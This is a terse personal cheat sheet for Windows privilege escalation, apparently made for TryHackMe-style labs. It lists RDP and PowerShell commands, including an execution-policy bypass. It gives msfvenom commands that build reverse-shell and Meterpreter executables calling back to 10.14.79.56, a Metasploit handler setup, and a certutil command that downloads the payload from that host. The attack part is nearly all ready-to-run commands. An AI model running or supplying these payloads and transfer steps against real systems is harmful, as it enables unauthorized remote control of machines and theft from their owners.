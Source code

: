 [Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
[Other links](https://tryhackme.com/r/room/windowsprivesc20#header-9)

---
### Basics

**Connect to windows via xFreeRDP**
```shell
xfreerdp /u:[user] /p:[password] /v:[server] /dynamic-resolution /cert:ignore +clipboard /drive:share,/rdp
```

**RDP through TLS**
```shell
xfreerdp /u:[user] /p:[password] /v:[server] /dynamic-resolution /cert:ignore +clipboard /drive:share,/rdp /sec:tls
```

**Set belgian french keyboard**
```powershell
Set-WinUserLanguageList -LanguageList "fr-BE" -Force
```

**Load an administrator shell**
```Powershell
Start-Process powershell 'Start-Process powershell -Verb RunAs' -Credential [admin]
```

**Start powershell in cmd**
```powershell
powershell -ep bypass
```
##### Shells
**Classic reverse shell**
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.79.56 LPORT=9001 -f exe -o shell.exe
```

**Meterpreter shell**
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.79.56 LPORT=9002 -f exe -o shell.exe
```

**Setup meterpreter listener**
```shell
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.14.79.56
set LPORT 9002
exploit
```

**Transfer the shell**
```powershell
certutil -urlcache -split -f "http://10.14.79.56:5050/shell.exe" C:\Users\Public\shell.exe
```
